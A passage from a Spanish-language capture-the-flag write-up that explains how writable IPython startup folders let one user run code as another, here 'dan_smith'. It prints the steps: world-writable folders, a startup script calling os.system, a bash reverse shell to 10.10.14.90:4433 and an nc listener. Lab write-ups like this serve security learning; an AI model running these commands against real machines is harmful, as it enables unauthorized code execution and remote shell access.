 La idea es que te imagines como una persona que usa mucho **IPython** y tiene líneas de código que escribe todos los días (o sea, que las repite), esto te hace pensar "¿y si las automatizo?", acá entran en juego los **IPython Startup Files**, ya que efectivamente nos hacen la vida más fácil almacenando en la ruta `/profile_default/startup` todos los scripts (`.py` o `.ipy`) que queremos ejecutar.

La cosita peligrosa llega cuando nos damos cuenta de que si alguien tiene acceso a la ruta donde tenemos guardados los archivos (`/profile_default/startup`) y peor, si tiene acceso de **escritura** cuando nosotros ejecutemos tranquilamente nuestro `ipython` ***también habremos ejecutado lo que sea que esa otra persona haya almacenado en la carpeta*** :O Por lo que esa otra persona **podría llegar a convertirse en nosotrooooos**!

Y de eso se trata la vuln, a convertirnos en `dan_smith` 😇

Lo único necesario es crear las carpetas, agregar lo que queremos que sea ejecutado y listos, cuando **Dan** inicie `ipython` sobre `/opt/scripts_review` entrara a las carpetas, tomara el script y lo ejecutará (:

## Automatizumba [📌](#ipython-rce) {#ipython-rce}

Creamos carpetas con permisos totales:

```bash
mkdir -m 777 /opt/scripts_review/profile_default && mkdir -m 777 /opt/scripts_review/profile_default/startup
```

Y ahora debemos indicarle que nos ejecute el programa `hola.py`:

```bash
echo 'import os; os.system("/tmp/test/jujui.sh")' > /opt/scripts_review/profile_default/startup/hola.py
```

El contenido de **hola.py** será ejecutar el script `/tmp/test/jujui.sh`, esto por simple comodidad de modificar libremente cositas, el contenido de **jujui.sh** contiene una reverse shell:

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.90/4433 0>&1
```

Así que cuando lo ejecute enviará al puerto **4433** de la IP **10.10.14.90** una **bash** (: Le damos permisos totales sobre el archivo a cualquiera, así evitamos que **Dan** no pueda leerlo (y ejecutarlo):

```bash
chmod 777 /tmp/test/jujui.sh
```

Solo nos falta levantar el puerto **4433** para recibir la conexión:

```bash
nc -lvp 4433
```

Y listooooooos! Estamos preparados para nuestro ataque (la máquina borra después de ejecutar el **IPython** todo el contenido de `/opt/scripts_review/`, así que hay que ser rápidos o simplemente ejecutar las líneas empezando cada minuto):

